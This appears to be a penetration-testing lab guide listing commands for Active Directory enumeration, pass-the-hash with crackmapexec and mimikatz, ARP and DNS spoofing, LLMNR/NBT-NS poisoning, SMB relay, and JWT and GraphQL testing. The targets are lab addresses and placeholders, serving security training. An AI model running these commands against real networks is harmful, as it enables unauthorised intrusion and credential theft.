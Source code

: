 ## Lab 1: Advanced Network Attacks

### A. Active Directory Exploitation

1. **Domain Enumeration**
   ```bash
   # BloodHound setup
   sudo neo4j start
   bloodhound &
   
   # PowerView usage
   Import-Module .\PowerView.ps1
   Get-NetDomain
   Get-NetUser
   ```

2. **Lateral Movement**
   ```bash
   # Pass the Hash
   crackmapexec smb 192.168.2.0/24 -u Administrator -H "<HASH>"
   
   # Token Impersonation
   mimikatz # sekurlsa::pth /user:Administrator /domain:lab.local /ntlm:<HASH>
   ```

### B. Advanced Network Attacks

1. **MITM Attacks**
   ```bash
   # ARP Spoofing
   ettercap -T -q -i eth0 -M arp:remote /192.168.1.1/ /192.168.1.0/24/
   
   # DNS Spoofing
   responder -I eth0 -wrfv
   ```

2. **Protocol Attacks**
   ```bash
   # LLMNR/NBT-NS Poisoning
   responder -I eth0 -rv
   
   # SMB Relay
   ntlmrelayx.py -tf targets.txt -smb2support
   ```

## Lab 2: Advanced Web Application Testing

### A. Advanced Web Exploitation

1. **API Testing**
   ```bash
   # JWT Testing
   jwt_tool.py <token> -T
   
   # GraphQL Analysis
   graphql-map -s http://target/graphql
   ```
